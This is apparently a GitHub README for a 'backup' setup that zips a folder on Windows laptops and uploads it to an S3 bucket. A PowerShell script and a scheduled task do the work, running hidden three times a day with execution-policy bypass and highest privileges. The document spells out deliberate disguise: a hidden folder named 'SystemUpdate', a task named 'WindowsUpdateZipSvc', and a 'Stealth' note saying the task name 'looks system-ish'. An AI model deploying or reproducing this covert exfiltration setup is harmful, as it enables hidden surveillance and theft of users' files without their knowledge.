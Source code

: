 # Maksiti Backups — README

## 1) AWS (once)
- Create IAM user: **`backup-user`** (programmatic access only).
- Attach policy granting access **only** to bucket **`arbrim-backups-test`** (ListBucket, Put/Get/DeleteObject).
- Save the access key CSV.

> (Optional) As an admin, add an S3 **Lifecycle rule** to expire `zips/` after 7 days (CLI step below).

---

## 2) Windows setup (per laptop)

### 2.1 Install & configure AWS CLI
Download and install:  
`https://awscli.amazonaws.com/AWSCLIV2.msi`

Verify:
```powershell
aws --version
```

Configure:
```powershell
aws configure
```
Use:
```
Access Key ID: <from backup-user CSV>
Secret Access Key: <from backup-user CSV>
Default region: eu-central-1
Output format: json
```

### 2.2 Create hidden script folder (user-writable; no admin needed)
```powershell
New-Item -ItemType Directory -Path "C:\Users\<USER>\AppData\Local\SystemUpdate" -Force | Out-Null
attrib +h "C:\Users\<USER>\AppData\Local\SystemUpdate"
```

### 2.3 Pick backup source and S3 layout
```
Local folder to back up (edit per machine):
C:\Users\<USER>\Desktop\maksitest

S3 bucket:
arbrim-backups-test

Zips stored under (auto by script):
s3://arbrim-backups-test/zips/<COMPUTER>/
```

### 2.4 Save the PowerShell script
Path:
```
C:\Users\<USER>\AppData\Local\SystemUpdate\WinZipBackup.ps1
```

Content:
```powershell
# --- EDIT THESE TWO PER MACHINE ---
$SrcPath = "C:\Users\<USER>\Desktop\maksitest"   # Folder to back up
$Bucket  = "arbrim-backups-test"                     # S3 bucket
# ----------------------------------

$Computer  = $env:COMPUTERNAME
$UserName  = $env:USERNAME
$Stamp     = (Get-Date).ToString("yyyy-MM-dd_HH-mm")
$Prefix    = "zips/$Computer"
$ZipName   = "${Computer}-${UserName}_${Stamp}.zip"
$TempZip   = Join-Path $env:TEMP $ZipName

if (-not (Test-Path $SrcPath)) { exit 0 }

try {
    if (Test-Path $TempZip) { Remove-Item $TempZip -Force -ErrorAction SilentlyContinue }
    Compress-Archive -Path $SrcPath -DestinationPath $TempZip -CompressionLevel Optimal -Force
} catch { exit 0 }

$S3Key = "$Prefix/$ZipName"
$null = aws s3 cp "$TempZip" "s3://$Bucket/$S3Key" --sse AES256 2>$null
Remove-Item $TempZip -Force -ErrorAction SilentlyContinue

```

### 2.5 Schedule it (silent run at multipletimes)
```powershell
$action = New-ScheduledTaskAction -Execute 'powershell.exe' -Argument '-NoLogo -NonInteractive -WindowStyle Hidden -ExecutionPolicy Bypass -File C:\Users\arbri\AppData\Local\SystemUpdate\WinZipBackup.ps1'

$trigs = @(
    (New-ScheduledTaskTrigger -Daily -At (Get-Date "11:00")),
    (New-ScheduledTaskTrigger -Daily -At (Get-Date "13:00")),
    (New-ScheduledTaskTrigger -Daily -At (Get-Date "15:00"))
)

$settings = New-ScheduledTaskSettingsSet -AllowStartIfOnBatteries -DontStopIfGoingOnBatteries

# Register with highest privileges under your user
Register-ScheduledTask -TaskName 'WindowsUpdateZipSvc' -Action $action -Trigger $trigs -Settings $settings -RunLevel Highest -User 'arbri'
```

Verify it worked
```
schtasks /Query /TN "WindowsUpdateZipSvc" /V /FO LIST
```
Test it without waiting
```
schtasks /Run /TN "WindowsUpdateZipSvc"
```
---


## 4) Restore & notes

**Restore:** download the desired zip from  
`s3://arbrim-backups-test/zips/<COMPUTER>/<COMPUTER>-<USER>_YYYY-MM-DD_HH-mm.zip`  
and unzip.

**Scale to more laptops:** copy `WinZipBackup.ps1`, edit only `$SrcPath`, run the same `schtasks` command (path includes the user’s profile). Lifecycle rule applies to all machines automatically.

**Stealth:** script runs with hidden PowerShell; folder is hidden; task name looks system-ish.

Verify task is configured daily
```
schtasks /Query /TN "WindowsUpdateZipSvc" /V /FO LIST
```

## 5) Enable disable script
Pause
```
Disable-ScheduledTask -TaskName 'WindowsUpdateZipSvc'
```
Resume
```
Enable-ScheduledTask  -TaskName 'WindowsUpdateZipSvc'
```

## 6) Delete it forever
```
Unregister-ScheduledTask -TaskName 'WindowsUpdateZipSvc' -Confirm:$false
Remove-Item "C:\Users\<USER>\AppData\Local\SystemUpdate\WinZipBackup.ps1" -Force
# (optional) Remove the hidden folder if you don’t need it
Remove-Item "C:\Users\<USER>\AppData\Local\SystemUpdate" -Recurse -Force
```
